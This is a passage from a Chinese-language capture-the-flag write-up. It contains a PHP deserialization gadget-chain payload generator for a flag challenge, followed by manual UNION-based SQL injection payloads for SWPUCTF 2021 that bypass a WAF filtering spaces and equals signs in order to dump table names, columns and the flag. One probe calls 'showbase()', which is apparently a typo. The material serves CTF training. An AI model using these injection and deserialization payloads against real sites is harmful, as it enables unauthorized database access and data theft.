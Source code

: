 Payload：
```php
<?php

class w44m{
    private $admin = 'w44m';
    protected $passwd = '08067';

    public function Getflag(){
        if($this->admin === 'w44m' && $this->passwd ==='08067'){
            include('flag.php');
            echo $flag;
        }else{
            echo $this->admin;
            echo $this->passwd;
            echo 'nono';
        }
    }
}

class w22m{
    public $w00m;
    public function __destruct(){
        echo $this->w00m;
    }
}

class w33m{
    public $w00m;
    public $w22m;
    public function __toString(){
        $this->w00m->{$this->w22m}();
        return 0;
    }
}

$a = new w22m();
$b = new w33m();
$c = new w44m();

$a -> w00m = $b;
$b -> w00m = $c;
$b -> w22m = 'Getflag';

echo urlencode(serialize($a));
?>
```
> 这里的 `admin`、`passwd` 两个参数受到保护，所以要在类中直接修改，不能传参修改！

## [SWPUCTF 2021 新生赛]sql
- 测试一下，sqlmap 不能自动注入，有 WAF 要手动绕过。    
- 测试发现这题对空格和等号进行了过滤，测试发现在第二处有回显。
```SQL
/?wllm=-1%27/**/union/**/select/**/1,showbase(),1%23
```
Payload：
```SQL
/?wllm=-1%27/**/union/**/select/**/1,group_concat(table_name),1/**/from/**/information_schema.tables/**/where/**/table_schema/**/like/**/'test_db'%23
/?wllm=-1%27/**/union/**/select/**/1,group_concat(column_name),1/**/from/**/information_schema.columns/**/where/**/table_name/**/like/**/'LTLT_flag'%23
/?wllm=-1%27/**/union/**/select/**/1,flag,1/**/from/**/test_db.LTLT_flag%23
/*这里flag太长了，需要用mid()函数来截取flag。*/
/?wllm=-1%27/**/union/**/select/**/1,mid(flag,21,20),1/**/from/**/test_db.LTLT_flag%23
```